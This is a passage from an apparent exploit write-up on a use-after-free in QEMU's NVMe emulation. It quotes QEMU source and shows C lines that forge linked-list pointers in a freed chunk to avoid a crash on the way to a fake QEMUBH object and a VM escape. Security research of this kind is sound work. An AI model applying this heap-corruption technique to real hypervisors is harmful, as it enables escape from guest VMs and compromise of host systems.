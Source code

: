 
#### 6.4 Tcache Poisoning

Although the assert check passes, `nvme_enqueue_req_completion()` will still encounter an invalid memory access partway through execution.

```
<nvme_enqueue_req_completion+451>    mov    qword ptr [rax], rdx            <Cannot dereference [0x4141414141414141]>
```

This is because when updating the request linked list (`cq->req_list`), it accesses `tql_prev` from `NvmeCQueue` [1]. However, this address points to invalid memory (0x4141414141414141).

```c
static void nvme_enqueue_req_completion(NvmeCQueue *cq, NvmeRequest *req)
{
    // [...]
    QTAILQ_REMOVE(&req->sq->out_req_list, req, entry);
    QTAILQ_INSERT_TAIL(&cq->req_list, req, entry); // [1]
    qemu_bh_schedule(cq->bh); // [2]
}
```

At this point, we just need to set the member `tql_prev` to a valid and unused memory address to prevent a crash [3]. Since `QTAILQ_INSERT_TAIL()` doesn't use `tql_next`, we can set it to any value [4].

```c
*(unsigned long *)(uaf_data + 0x60) = 0xdeadbeef;   // [4], tql_next
*(unsigned long *)(uaf_data + 0x68) = heap + 0x870; // [3], tql_prev
```

After updating the linked list, `qemu_bh_schedule()` is called with `cq->bh` as a parameter [2]. This function schedules a bottom half job by directly invoking `aio_bh_enqueue()`. `aio_bh_enqueue()` first checks if the `QEMUBH` object’s flag includes `BH_PENDING` [5]. If it does not, indicating the bottom half job has not yet been scheduled, the job is added to the `AioContext` object's linked list [6].

```c
static void aio_bh_enqueue(QEMUBH *bh, unsigned new_flags)
{
    AioContext *ctx = bh->ctx;
    unsigned old_flags;

    old_flags = qatomic_fetch_or(&bh->flags, BH_PENDING | new_flags);

    if (!(old_flags & BH_PENDING)) { // [5]
        QSLIST_INSERT_HEAD_ATOMIC(&ctx->bh_list, bh, next); // [6]
    }
    // [...]
}
```

To construct a fake `QEMUBH` object, I set `cq->bh` to another controllable chunk, which is actually the seventh stream of the HDA.
